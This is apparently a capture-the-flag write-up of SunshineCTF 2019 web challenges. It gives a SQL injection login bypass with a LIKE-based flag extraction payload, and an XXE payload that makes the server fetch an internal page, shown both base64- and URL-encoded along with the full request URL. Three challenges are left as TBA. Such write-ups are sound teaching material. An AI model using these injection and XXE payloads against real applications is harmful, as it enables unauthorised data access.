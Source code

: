 # Web Challenge
Lots of wrestlers. nice.
<br>
<br>
## 100 points: WrestlerBook
```
WrestlerBook is the social network for wrestlers, by wrestlers. WrestlerBook is exclusively for wrestlers, so if you didn't get an invite don't even bother trying to view our profiles.
```
<a href="http://archive.sunshinectf.org:19006">http://archive.sunshinectf.org:19006</a>
```
Author: dmaria
```
Opening the website:

![](/Images/2019/SunshineCTF/WrestlerBook.PNG)

It's a simple login screen, and being a basic web challenge, it's probably SQLi (SQL injection). First thing I do is try to login using '`' or '1'='1`' as both the username and the password. It works, but all you get is this:

![](/Images/2019/SunshineCTF/hulkhogie.PNG)

Looks like its going to be a bit more work than I thought. However, looking at the user info, there appears to be a flag section that's just empty for this user. Perhaps '`flag`' is a column in the database. I used the LIKE operator to test for an entry that contains '`sun`'. My payload therefore becomes:

username: `' or flag LIKE '%sun%' or '1'='2`

password: `' or '1'='2`

The `'1'='2` part of each section allows me to incorporate the ending quote while not afecting the query, since '1' is never equal to '2'. My payload worked:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563510097884741642/unknown.png">

flag: `sun{ju57_4n07h3r_5ql1_ch4ll}`
<br>
<br>
<br>
## 150 points: Wrestler Name Generator
```
Even better than the Wu-Tang name generator, legend has it that Hulk Hogan used this app to get his name.
```
<a href='http://archive.sunshinectf.org:19007'>http://archive.sunshinectf.org:19007</a>
```
Author: dmaria
```
Opening the website, we're greeted with this colorful page:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563510519831461909/unknown.png">

Viewing the page's source code gets us this gem of a script:
```
<script>
document.getElementById("button").onclick = function() {
  var firstName = document.getElementById("firstName").value;
  var lastName = document.getElementById("lastName").value;
  var input = btoa("<?xml version='1.0' encoding='UTF-8'?><input><firstName>" + firstName + "</firstName><lastName>" + lastName+ "</lastName></input>");
  window.location.href = "/generate.php?input="+encodeURIComponent(input);
};
</script>
```
Searching up XML exploitations, it appears as though this challenge will be XXE, or XML External Entity. But what are we trying to do? I pressed the "Generate" button with empty fields and got this page:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563511596836585485/unknown.png">

Opening the sourcecode, we see the following comment:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563511441164992533/unknown.png">

It's clear that we need to access this from server-side and direct the output to client-side. We can do this by loading in an external entity into any of the fields, so that when the website parses the `<lastname>` tag and puts it onto the page, we see the external entity. After searching, I got the following xml:
```
<?xml version='1.0' encoding='utf-8'?><!DOCTYPE lastNAME [<!ENTITY test SYSTEM "http://127.0.0.1/generate.php?">]><input><firstName></firstName><lastName>&test;</lastName></input>
```

This loads the page from server side and stores it into an entity called 'test'. `&test;` calls the value of the entity as the value between the lastName tags, so we should see something when we go to the website with that XML sent as the payload. How do we send it? Luckily, the url has a parameter '`input`' that is set equal to a base64 string. Returning to the first page, we see that the function `btoa` encodes its argument into base64, so we need to convert our exploit to base64:
```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0ndXRmLTgnPz48IURPQ1RZUEUgbGFzdE5BTUUgWzwhRU5USVRZIHRlc3QgU1lTVEVNICJodHRwOi8vMTI3LjAuMC4xL2dlbmVyYXRlLnBocD8iPl0+PGlucHV0PjxmaXJzdE5hbWU+PC9maXJzdE5hbWU+PGxhc3ROYW1lPiZ0ZXN0OzwvbGFzdE5hbWU+PC9pbnB1dD4=
```
Finally, URLencoding it gets us:
```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0ndXRmLTgnPz48IURPQ1RZUEUgbGFzdE5BTUUgWzwhRU5USVRZIHRlc3QgU1lTVEVNICJodHRwOi8vMTI3LjAuMC4xL2dlbmVyYXRlLnBocD8iPl0%2BPGlucHV0PjxmaXJzdE5hbWU%2BPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ0ZXN0OzwvbGFzdE5hbWU%2BPC9pbnB1dD4%3D
```
Going to the site (post-competition url, during competition domain was `ng.sunshinectf.org/`):
```
http://archive.sunshinectf.org:19007/generate.php?input=PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0ndXRmLTgnPz48IURPQ1RZUEUgbGFzdE5BTUUgWzwhRU5USVRZIHRlc3QgU1lTVEVNICJodHRwOi8vMTI3LjAuMC4xL2dlbmVyYXRlLnBocD8iPl0%2BPGlucHV0PjxmaXJzdE5hbWU%2BPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ0ZXN0OzwvbGFzdE5hbWU%2BPC9pbnB1dD4%3D
```
This nets us the flag:

<img src="https://cdn.discordapp.com/attachments/561665413918883840/563514724642193408/unknown.png">
<br>
<br>
<br>
## 150 points: Portfolio
```
Check out my development portfolio! I'm just getting started, so don't be too mean :(
```
<a href='http://archive.sunshinectf.org:19009'>http://archive.sunshinectf.org:19009</a>
```
Author: dmaria
```
TBA
<br>
<br>
<br>
## 300 points: Enter the Polygon 1
```
These photos are The Best There Is, The Best There Was and The Best There Ever Will Be. Give me your photos I'll EXAMINE if they meet the bar.
```
<a href='http://img.sunshinectf.org'>http://img.sunshinectf.org</a>
```
Author: Astor
```
TBA
<br>
<br>
<br>
## 300 points: Enter the Polygon 2
TBA
